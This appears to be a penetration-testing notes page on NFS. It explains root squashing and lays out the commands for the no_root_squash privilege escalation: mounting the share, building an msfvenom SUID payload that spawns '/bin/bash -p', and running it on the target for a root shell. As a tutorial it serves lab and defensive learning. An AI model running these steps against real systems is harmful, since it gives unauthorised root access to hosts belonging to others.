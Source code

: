 # NFS

NFS (Network File System) is a popular distributed file system.NFS shares are configured in the /etc/exports file. Remote users can mount shares, access, create, modify files. By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.



## Useful Commands

Show the NFS server’s export list:

#### &#x20; `showmount -e [target]`

Similar Nmap script:

#### `nmap –sV –script=nfs-showmount [target]`

Mount an NFS share:

#### `mount -o rw,vers=2 [target]:[share] [local_directory]`

## Root Squashing

Root Squashing is how NFS prevents an obvious privilege escalation. If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group.While this behavior is default, it can be disabled!

## no\_root\_squash

no\_root\_squash is an NFS configuration option which turns root squashing off. When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

Check the contents of /etc/exports for shares with the no\_root\_squash option:

#### `cat /etc/exports`

![](../../../.gitbook/assets/nfs1.png)





Confirm that the NFS share is available for remote mounting:

#### `root@W4LK3R:~# showmount -e 192.168.1.25` ` Export list for 192.168.56.102:` ` /tmp *`

Create a mount point on your local machine and mount the /tmp NFS share:

#### `mkdir /tmp/nfs` ` mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs`

Using the root user on your local machine, generate a payload and save it to the mounted share:

#### `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Make sure the file has the SUID bit set, and is executable by everyone:

#### `chmod +xs /tmp/nfs/shell.elf`

On the target machine, execute the file to get a root shell:

#### `/tmp/shell.elf`





























